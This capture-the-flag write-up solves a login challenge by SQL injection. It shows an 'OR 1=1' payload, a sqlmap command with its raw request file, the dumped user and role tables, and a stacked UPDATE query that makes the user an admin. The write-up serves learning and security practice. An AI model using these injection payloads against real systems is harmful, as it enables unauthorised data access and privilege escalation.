


# Unexpected Input

```
The unexpected input challenge invites participants to unravel the secrets hidden within data structures. This quest is not for the faint of heart — only those who can master the art of decepting computers can complete this.
```

# Solution

Initially, I checked for basic SQL injections. like: OR 1=1, and the website was vulnerbale to SQLi

I got a positive response after inputting `' OR 1=1 -- -` in the email field, but the user did not have enough privileges. <br/>


I decided to run SQLmap to see the tables in the database.
```bash
sqlmap -r req.txt --ignore-code 401 --tables
```

##### req.txt
```
POST / HTTP/1.1
Host: 34.131.172.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.131.172.2/
Content-Type: application/json
Content-Length: 44
Origin: http://34.131.172.2
Connection: keep-alive

{"email":"admin","password":"admin"}
```

In  the database public, there are 2 tables
```
Table: users
[1 entry]
+----+---------+---------------------+-----------+-----------+------------+
| id | role_id | email               | lastname  | firstname | password   |
+----+---------+---------------------+-----------+-----------+------------+
| 1  | 2       | developer@excel.org | developer | developer | 1234       |
+----+---------+---------------------+-----------+-----------+------------+
```
```
Table: roles
[2 entries]
+----+----------------+
| id | name           |
+----+----------------+
| 1  | ROLE_ADMIN     |
| 2  | ROLE_DEVELOPER |
+----+----------------+
```

From the table dump, its clear that there is one user and 2 roles. To get ROLE_ADMIN, role_id should be changed to 1. To change the value to 1, I injected a stacked query through the email field.
```
' ; update users set role_id=1 where lastname='developer'; -- -
```
Now that the role_id has changed, I used the credentials from user table to login.
